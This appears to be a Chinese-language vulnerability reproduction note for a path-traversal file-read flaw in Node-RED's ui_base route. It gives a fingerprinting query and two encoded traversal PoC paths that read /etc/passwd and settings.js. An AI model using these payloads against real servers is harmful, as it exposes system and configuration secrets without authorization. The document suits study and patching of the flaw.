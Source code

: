 # Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

<a-checkbox checked>Node-RED</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Node-RED"</a-checkbox></br>

## 漏洞复现

访问页面

![img](../../../.vuepress/public/img/image-20210701185722667.png)



验证POC

```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![img](../../../.vuepress/public/img/image-20210701185812622.png)



![img](../../../.vuepress/public/img/image-20210704171045540.png)
